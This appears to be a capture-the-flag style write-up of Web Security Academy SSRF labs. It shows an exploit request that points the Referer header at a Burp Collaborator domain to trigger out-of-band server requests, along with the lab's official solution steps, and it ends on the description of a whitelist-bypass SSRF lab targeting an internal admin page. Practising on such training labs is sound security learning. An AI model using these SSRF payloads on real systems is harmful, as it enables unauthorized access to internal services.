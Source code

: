 > This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.
>
> To solve the lab, use this functionality to cause an HTTP request to the public Burp Collaborator server. 

exploit

```http
GET /product?productId=1 HTTP/1.1
Host: 0a14004f034595dac0093c7000270063.web-security-academy.net
Referer: http://md334ugs3kp20r7iwsork1mnqew4kt.burpcollaborator.net
```

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
                <ol>
                    <li>
                        In Burp Suite Professional, go to the Burp menu and launch the Burp Collaborator client.
                    </li>
                    <li>
                        Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard. Leave the Burp Collaborator client window open.
                    </li>
                    <li>
                        Visit a product, intercept the request in Burp Suite, and send it to Burp Repeater.
                    </li>
                    <li>
                        Change the Referer header to use the generated Burp Collaborator domain in place of the original domain. Send the request.
                    </li>
                    <li>
                        Go back to the Burp Collaborator client window, and click "Poll now". If you don't see any interactions listed, wait a few seconds and try again, since the server-side command is executed asynchronously.
                    </li>
                    <li>
                        You should see some DNS and HTTP interactions that were initiated by the application as the result of your payload.
                    </li>
                </ol>
            </div>
        </div>

#### SSRF with whitelist-based input filter

> This lab has a stock check feature which fetches data from an internal system.
>
> To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.
>
> The developer has deployed an anti-SSRF defense you will need to bypass. 
